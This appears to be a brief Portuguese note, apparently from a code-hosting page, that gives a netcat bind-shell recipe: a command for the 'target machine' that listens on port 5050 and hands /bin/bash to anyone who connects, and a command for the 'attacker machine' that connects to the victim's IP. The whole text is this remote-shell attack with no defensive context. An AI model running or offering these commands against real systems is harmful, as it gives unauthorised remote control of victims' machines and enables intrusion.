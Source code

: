 
---

![](https://i.imgur.com/TGOn8oK.png)

Maquina do alvo:

```bash
nc -vnlp 5050 -e /bin/bash
```

Maquina do atacante: 

```bash
nc -vn {ip_da_vitima} 5050
```